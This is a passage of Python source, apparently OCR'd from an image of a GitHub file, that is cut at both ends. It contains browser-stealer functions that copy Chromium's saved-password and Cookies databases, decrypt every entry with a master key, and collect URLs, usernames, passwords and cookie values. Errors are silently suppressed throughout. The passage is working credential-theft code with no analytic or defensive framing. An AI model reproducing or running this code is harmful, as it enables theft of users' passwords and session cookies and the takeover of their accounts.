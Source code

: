             try:
                if encrypted_password[:4] == b'\x01\x00\x00\x00':
                    decrypted_password = decrypt(encrypted_password, master_key)
                    if username != "" and decrypted_password != "Error":
                        passwords.append({
                            "url": url,
                            "username": username,
                            "password": decrypted_password
                        })
            except Exception as e:
                pass
                
        cursor.close()
        conn.close()
        try:
            os.remove(temp_file)
        except:
            pass
    except Exception as e:
        pass
        
    return passwords

def get_cookies(path, master_key):
    cookies = []
    try:
        cookies_db = os.path.join(path, 'Cookies')
        if not isfile(cookies_db): 
            return cookies
            
        temp_file = os.path.join(tempfile.gettempdir(), "cookies_db")
        shutil.copy2(cookies_db, temp_file)
        
        conn = sqlite3.connect(temp_file)
        cursor = conn.cursor()
        cursor.execute("SELECT host_key, name, encrypted_value FROM cookies")
        
        for row in cursor.fetchall():
            host = row[0]
            name = row[1]
            encrypted_cookie = row[2]
            
            try:
                if encrypted_cookie[:4] == b'\x01\x00\x00\x00':
                    decrypted_cookie = decrypt(encrypted_cookie, master_key)
                    if decrypted_cookie != "Error":
                        cookies.append({
                            "host": host,
                            "name": name,
                            "value": decrypted_cookie
                        })
            except Exception as e:
                pass
                
        cursor.close()
        conn.close()
        try:
            os.remove(temp_file)
        except:
            pass
    except Exception as e:
        pass
        
